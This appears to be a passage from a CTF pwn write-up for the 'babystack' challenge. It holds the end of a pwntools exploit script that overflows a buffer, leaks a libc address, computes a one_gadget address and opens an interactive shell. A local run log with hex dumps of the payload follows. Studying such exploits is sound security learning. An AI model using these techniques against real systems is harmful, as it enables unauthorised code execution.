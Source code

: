 ```python
pipe.recvuntil("How many bytes do you want to send?\n")
pipe.sendline(str(0x2000))
pipe.send(payload)
pipe.recvuntil("It's time to say goodbye.\n")
leakInfo = u64(pipe.recv(6) + '\x00\x00') 
print("leak info: 0x%x\n" % leakInfo)
libcBase = leakInfo - libc.symbols['atol']
print("libc base address: 0x%x\n" % libcBase)
bin_sh = libc.search('/bin/sh').next()
system = libc.sym['system']


onegadget = libcBase + og_offset
print("one_gadget address: 0x%x\n" % onegadget)
pipe.send(p64(onegadget))

pipe.interactive()
```


```shell
➜  sixstarctf2018_babystack python ./exp.py
[+] Starting local process './bs' argv=['./bs']  env={'LD_PRELOAD': './libc.so.6'} : pid 39523
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/pitta/workspace/pwn_learn/rec0rd/Stack/sixstarctf2018_babystack/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[DEBUG] Received 0xec bytes:
    '\n'
    ' #   #    ####    #####  ######\n'
    '  # #    #    #     #    #\n'
    '### ###  #          #    #####\n'
    '  # #    #          #    #\n'
    ' #   #   #    #     #    #\n'
    '          ####      #    #\n'
    '\n'
    'Welcome to babystack 2018!\n'
    'How many bytes do you want to send?\n'
[DEBUG] Sent 0x5 bytes:
    '8192\n'
[DEBUG] Sent 0x2000 bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00001010  f8 2e 60 00  00 00 00 00  03 0c 40 00  00 00 00 00  │·.`·│····│··@·│····│
    00001020  f0 1f 60 00  00 00 00 00  c0 07 40 00  00 00 00 00  │··`·│····│··@·│····│
    00001030  03 0c 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00001040  01 0c 40 00  00 00 00 00  00 2f 60 00  00 00 00 00  │··@·│····│·/`·│····│
    00001050  00 00 00 00  00 00 00 00  e0 07 40 00  00 00 00 00  │····│····│··@·│····│
    00001060  91 07 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00001070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00002000
[DEBUG] Received 0x21 bytes:
    00000000  49 74 27 73  20 74 69 6d  65 20 74 6f  20 73 61 79  │It's│ tim│e to│ say│
    00000010  20 67 6f 6f  64 62 79 65  2e 0a b0 1e  86 b3 30 7f  │ goo│dbye│.···│··0·│
    00000020  0a                                                  │·│
    00000021
leak info: 0x7f30b3861eb0

libc base address: 0x7f30b382b000

```
